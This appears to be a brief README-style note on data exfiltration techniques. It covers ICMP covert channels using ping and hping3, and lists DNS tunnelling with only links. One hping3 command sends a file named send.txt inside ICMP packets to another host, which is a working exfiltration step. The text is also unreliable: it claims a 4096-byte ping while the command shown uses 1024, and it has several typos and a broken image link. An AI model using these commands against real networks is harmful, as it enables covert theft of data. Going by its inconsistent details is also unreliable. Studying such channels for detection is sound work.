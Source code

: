 # Techniques to exfiltrate data

### ICMP echo request

Ping operates by sending Internet Control Message Protocol (ICMP) echo reqtest packets to the rarget host and waiting for an ICMP echo replay!

The following command will send a ping request with the size of 4096:

```$ ping 127.0.0.1 -s 1024```

The payload of 4096 is junk **until** you add your own payload:

```$sudo hping3 127.0.0.1 -1 --sign="Hello world!"```

or even send a file:

```sudo hping3 192.168.179.131 -1 --file send.txt --data 100```

### DNS protocol

!(DNS Data Exfiltration)[docs/dns_data_exfiltration.png]

#### Resources: 

  * https://www.sans.org/reading-room/whitepapers/dns/detecting-dns-tunneling-34152
  *https://community.infoblox.com/t5/Community-Blog/DNS-Data-Exfiltration-How-it-works/ba-p/3664